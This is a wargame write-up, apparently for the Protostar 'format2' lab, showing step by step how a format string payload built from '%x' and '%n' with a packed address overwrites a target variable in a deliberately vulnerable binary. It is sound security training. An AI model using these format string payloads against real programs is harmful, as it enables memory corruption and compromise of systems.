

**Format2**

Similar to Format1, only here we need to change to a specific value.


First, checking to see what address target is.


Finding the right offset to put address in.

```diff
$ python -c "print 'AAAA' + '%x '*10" | ./format2
AAAA200 b7fd8420 bffff614 41414141 25207825 78252078 20782520 25207825 78252078 20782520 
target is 0 :(

$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*10" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 80496e4 25207825 78252078 20782520 25207825 78252078 
target is 0 :(

$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*5" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 80496e4 
```

Now, modifying target's value.

```diff
$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*4 + '%n'" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 
target is 39 :(
```

Hmm, why exactly 39? Let's try to play with this

```diff
$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*4 + '%n64'" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 64
target is 39 :(

$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*4 + '64%n'" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 64
target is 41 :(

$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*4 + '4%n'" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 4
target is 40 :(

$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*4 + '5455%n'" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 5455
target is 43 :(
```

Looks like the value of target = number of chars before %n + 39 (Length of the payload)

```diff
$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*4 + 25*'A' + '%n'" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 AAAAAAAAAAAAAAAAAAAAAAAAA
you have modified the target :)
```

Yes!
